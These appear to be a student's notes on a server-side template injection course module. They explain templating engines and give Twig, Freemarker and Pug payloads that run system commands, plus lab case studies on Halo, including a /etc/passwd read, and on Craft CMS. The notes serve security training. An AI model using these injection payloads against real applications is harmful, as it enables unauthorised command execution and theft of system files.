# Module 12: Server-side Template Injection - Discovery and Exploitation

## Templating Engines

### Accessing the Template Sandbox

_Start the VPN, VM, and add IP to hosts._

### Introduction to Templating Engines

_Example Email_

```
Hello Dragan,

Thank you for your order! Your items will be shipped out shortly:

Widget - $10
	Quantity: 3
	Total: 	$30
Toolkit - $20
	Quantity: 1
	Total: 	$20
_______________
Total: 		$50

These items will be shipped to:

194 Bridge Avenue Elton, Louisiana 70532
```

_Example Template Email_

```
01  Hello {{ name }},
02
03  Thank you for your order! Your items will be shipped out shortly:
04  

05  {{product.name}}
06          Price:  ${{product.price}}
07          Quantity: {{product.quantity}}
08          Total:  ${{product.quantity * product.price}}
09  ____________________
10  Total:          ${{total}}
11
12  
13  These items
14  This item
 will be shipped to:
15  {{address}}
```

_Example Template Variables_

```json
{
	"name": "Dragan",
	"address": "194 Bridge Avenue Elton, Louisiana 70532",
	"cart": [
		{
			"name": "Widget",
			"quantity": 3,
			"price": 10
		},
		{
			"name": "Toolkit",
			"quantity": 1,
			"price": 20
		}
	],
	"total": 50
}
```

_Greeting the user_

```
01  Hello {{ name }},
...
```

_Template For Loop_

```
04  

05  {{product.name}}
06          Price:  ${{product.price}}
07          Quantity: {{product.quantity}}
08          Total:  ${{product.quantity * product.price}}
09  

```

_Displaying the total_

```
10  Total:          ${{total}}
```

_Template If Statement_

```
12  

13  These items
14  This item
 will be shipped to:
15  {{address}}
```

_Various Templating Engines_

| Templating Engine | Language       | Server/client Side |
| ----------------- | -------------- | ------------------ |
| Twig              | PHP            | Server Side        |
| Freemarker        | Java (usually) | Server Side        |
| Pug/Jade          | JavaScript     | Mostly Server Side |
| Jinja             | Python         | Server Side        |
| Handlebars        | JavaScript     | Both               |
| Mustache          | Multiple       | Varies             |

<figure><figcaption><p>Comparing levels of logic</p></figcaption></figure>

## Twig - Discovery and Exploitation

### Twig - Discovery

_Inline PHP before Twig_

```php
<h1><?php echo $name ?></h1>

<p>Welcome to our site!</p>

<?php 
if ($isAdmin) {
  echo "<p>You are the supreme leader and we love you</p>";
}
?>
```

_Twig Template_

```twig
<h1>
sudo 
make me a sandwich, {{name|capitalize}}!</h1>
We are using Twig remotely to generate this template
```

_Twig Statement_

```twig

sudo 

```

### Twig - Exploitation

<figure><figcaption><p>Twig Filters</p></figcaption></figure>

_Twig Documentation Example_

```twig




{{ numbers|reduce((carry, v) => carry + v) }}
{# output 6 #}
```

_Arguments for the reduce Function_

```twig
Arguments

    arrow: The arrow function
    initial: The initial value
```

_var\_dump payload_

```twig
{{[0]|reduce('var_dump','Hello')}}
```

_var\_dump Payload output_

```twig
string(5) "Hello"
int(0)
```

_whoami Payload_

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><figcaption><p>Twig RCE</p></figcaption></figure>

## Apache Freemarker - Discovery and Exploitation

### Freemarker - Discovery

_Freemarker Template_

```twig
01  <h1>Hello ${name}!</h1>
02  <#if name == "hacker">
03  The top reasons you're great:
04    <#list reasons as reason>
05     ${reason?index + 1}: ${reason}
06    </#list>
07  </#if>
```

<figure><figcaption><p>Freemarker Variables</p></figcaption></figure>

_If Statement in Freemarker_

```twig
02  <#if name == "hacker">
...
07  </#if>
```

<figure><figcaption><p>Name set to "hacker"</p></figcaption></figure>

_Loop in Freemarker_

```twig
04    <#list reasons as reason>
05     ${reason?index + 1}: ${reason}
06    </#list>
```

Freemarker tends to be more susceptible to XSS than other templating engines due to the requirements before 2016 to have developers specify if a variable needs to be HTML escaped.

<figure><figcaption><p>HTML in name Variable</p></figcaption></figure>

<figure><figcaption><p>Freemarker Multiply Number</p></figcaption></figure>

<figure><figcaption><p>Freemarker multiple Number and String</p></figcaption></figure>

### Freemarker - Exploitation

<figure><figcaption><p>Freemarker Execute Documentations</p></figcaption></figure>

_Freemarker Execute Payload_

```twig
${"freemarker.template.utility.Execute"?new()("whoami")}
```

<figure><figcaption><p>Freemarker RCE</p></figcaption></figure>


In this scenario, the target is running the application as root. However, it is in a containerized environment, so this might not always be the case.


## Pug - Discovery and Exploitation

### Pug - Discovery

_Pug Template_

```pug
01   h1 Hello, #{name}
02   input(type='hidden' name='admin' value='true')
03 
04   if showSecret
05     - secret = ['❤️','😍', '🤟']
06     p The secrets are: 
07     each val in secret
08       p #{val}
09   else
10    p No secret for you!
```

_Attributes in Pug_

```pug
02   input(type='hidden' name='admin' value='true')
```

_if statement in Pug_

```pug
04   if showSecret
...
09   else
10     p No secret for you!
```

_Code in Pug_

```pug
05     - secret = ['❤️','😍', '🤟']
```

_Buffered Code_

```pug
= secret = ['❤️','😍', '🤟']
```

_Pug Loop_

```pug
07     each val in secret
08       p #{val}
```

<figure><figcaption><p>Discovering Pug</p></figcaption></figure>

### Pug - Exploitation

<figure><figcaption><p>Pug - require Does not Exist</p></figcaption></figure>

<figure><figcaption><p>Pug - global.process.mainModule.require</p></figcaption></figure>

_Storing require as Variable_

```pug
- var require = global.process.mainModule.require
= require('child_process')
```

<figure><figcaption><p>Pug - Requiring child_process</p></figcaption></figure>

_Executing spawnSync_

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdout
```


In this scenario, the target is running the application as root. However, it is in a containerized environment. This might not always be the case.


## Jinja - Discovery and Exploitation

### Jinja - Discovery

_Jinja Templating Engine_

```twig
01	<h1>Hey {{ name }}</h1>
02	

03	Here are a couple of reasons why you are great:
04	<ul>
05	
06		<li>{{r}}</li>
07	
08	</ul>
09	

```

<figure><figcaption><p>Jinja multiplying with string</p></figcaption></figure>

### Jinja - Exploitation


Obtaining RCE via injection in the Jinja templating engine is the type of complex technique reviewed in the WEB-300 course.


<figure><figcaption><p>Jinja - Config Key</p></figcaption></figure>

## Mustache and Handlebars - Discovery and Exploitation

### Mustache and Handlebars - Discovery

_Handlebars Template_

```handlebars
01  <h1>Hello {{name}}</h1>
02  {{#if nicknames}}
03  Also known as:
04    {{#each nicknames}}
05        {{this}}
06    {{/each}}
07  {{/if}}
08
09  We are using handlebars locally in your browser to generate this template
```

_Handlebars Expression_

```handlebars
01  <h1>Hello {{name}}</h1>
```

_Handlebars Helpers_

```handlebars
02  {{#if nicknames}}
03  Also known as:
04    {{#each nicknames}}
05        {{this}}
06    {{/each}}
07  {{/if}}
```

### Mustache and Handlebars - Exploitation

For the most part Handlebars is fairly safe due to it being logicless, however _helpers_ can cause it to be "vulnerable".

<figure><figcaption><p>Handlebars - Reading Directory</p></figcaption></figure>

<figure><figcaption><p>Handlebars - Read /etc/passwd</p></figcaption></figure>

## Halo - Case Study

### Accessing Halo

_Start the VPN, the VM, and add IP to hosts._

### Halo - Translation and Discovery

_Install an extension to translate the page if the browser won't do it automatically — I installed Translate Web Page from Filipe Dev into Firefox._

<figure><figcaption><p>Halo Admin Page</p></figcaption></figure>

<figure><figcaption><p>Halo Theme Editor Navigation</p></figcaption></figure>

<figure><figcaption><p>Halo Theme Editor</p></figcaption></figure>

_404.ftl_

```twig
01  <!DOCTYPE html>
02  <html>
03  <head>
04      <meta http-equiv="content-type" content="text/html; charset=utf-8">
05      <link rel="alternate" type="application/rss+xml" title="atom 1.0" href="/atom.xml">
06      <title>Not Found</title>
07      <link href="${static!}/source/css/style.min.css" type="text/css" rel="stylesheet"/>
08  </head>
09  <div class="page_404">
10      <p>The page you are looking for is missing</p>
11  </div>
12  </html>
```

_404 page with Halo_

```twig
kali@kali:~$ curl -L http://halo/DoesNotExist 
<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <link rel="alternate" type="application/rss+xml" title="atom 1.0" href="/atom.xml">
    <title>Not Found</title>
    <link href="http://halo/anatole/source/css/style.min.css" type="text/css" rel="stylesheet"/>
</head>
<div class="page_404">
    <p>The page you are looking for is missing</p>
</div>
</html>  
```

_Non-freemarker template response_

```twig
...
11  </div>
12  </html>
13  {{5*5}}
```

_Freemarker Template Response_

```twig
kali@kali:~$ curl -L http://halo/DoesNotExist
...
</html>
25
```

_Freemarker template with string response_

```twig
...
11  </div>
12  </html>
13  ${5*'5'}
```

### Halo - Exploitation

_Freemarker RCE Payload_

```twig
${"freemarker.template.utility.Execute"?new()("whoami")}
```

<figure><figcaption><p>Halo - Template Injection to view /etc/passwd</p></figcaption></figure>

_/etc/passwd in Halo_

```bash
kali@kali:~$ curl -L http://halo/DoesNotExist
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Extra Mile

_Do the lab._

## Craft CMS with Sprout Forms - Case Study

### Accessing Craft CMS

_Start the VPN, the VM, and add the IP to yours hosts._

### Craft CMS with Sprout Forms - Discovery

<figure><figcaption><p>Craft CMS Home page with Sprout Form</p></figcaption></figure>

<figure><figcaption><p>Discovering possible PHP and Craft CMS</p></figcaption></figure>

_Running Gobuster against the craft webpage_


```bash
kali@kali:~$ gobuster dir --wordlist /usr/share/wordlists/dirb/common.txt --url http://craft/
...
===============================================================
/admin                (Status: 302) [Size: 0] [--> http://craft/admin/login]
/index                (Status: 200) [Size: 56284]                           
/Index                (Status: 200) [Size: 56284]                           
/index.php            (Status: 200) [Size: 56284]                           
/logout               (Status: 302) [Size: 0] [--> http://craft/]           
...
```


